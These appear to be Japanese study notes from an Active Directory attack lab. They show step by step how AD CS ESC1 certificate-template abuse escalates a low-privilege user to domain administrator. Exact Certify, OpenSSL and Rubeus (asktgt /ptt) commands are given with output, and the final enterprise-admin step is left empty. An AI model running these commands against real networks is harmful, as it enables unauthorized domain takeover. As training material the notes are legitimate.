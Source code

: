  Enrollment Rightsの結果から、現在のユーザで任意のユーザで証明書を要求できる。
 RDPUsersグループに登録権限を付与し、要求者がサブジェクト名を指定できるようにする。

---
2. ドメイン管理者の管理者用の証明書をリクエストする。
```
C:\AD\Tools>C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
[snip] 
[*] cert.pem         : 
 -----BEGIN RSA PRIVATE KEY----- 
[snip] -----END CERTIFICATE----- 
[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced 
Cryptographic Provider v1.0" -export -out cert.pfx 
 
Certify completed in 00:00:21.3337806 
```
---
3. 上記で出力された鍵を使用するには、****PFX形式***に変換する必要がある。
学生用VM上でopenSSL binaryを使用して、返還を行う。
```
C:\AD\Tools>C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-DA.pfx 

WARNING: can't open config file: /usr/local/ssl/openssl.cnf 
Enter Export Password: 
Verifying - Enter Export Password:
```
※どこに出力されるのか不明

---
4. 上記で作成したPFXをRubeusで使用して、DA(管理者)用のTGTをリクエストする。
```
C:\AD\Tools>echo %Pwn% 
asktgt 
C:\AD\Tools>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /certificate:esc1-DA.pfx /password:SecretPass@123 /ptt 
 
   ______        _ 
  (_____ \      | | 
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___) 
  | |  \ \| |_| | |_) ) ____| |_| |___ | 
  |_|   |_|____/|____/|_____)____/(___/ 
 
  V2.2.1 
 
[*] Action: Ask TGT 
 
[*] Using PKINIT with etype rc4_hmac and subject: CN=studentx, CN=Users, 
DC=dollarcorp, DC=moneycorp, DC=local 
[*] Building AS-REQ (w/ PKINIT preauth) for: 
'dollarcorp.moneycorp.local\administrator' 
[+] TGT request successful! 
[snip]
```
---
5. 実際にDA権限があるか確認する。
```
C:\AD\Tools>winrs -r:dcorp-dc cmd /c set username 
USERNAME=administrator 
```
---
6. 同様の方法で、エンタープライズ管理者権限に昇格できます。エンタープライズ管理者の証明書をリクエスト - 管理者
```
```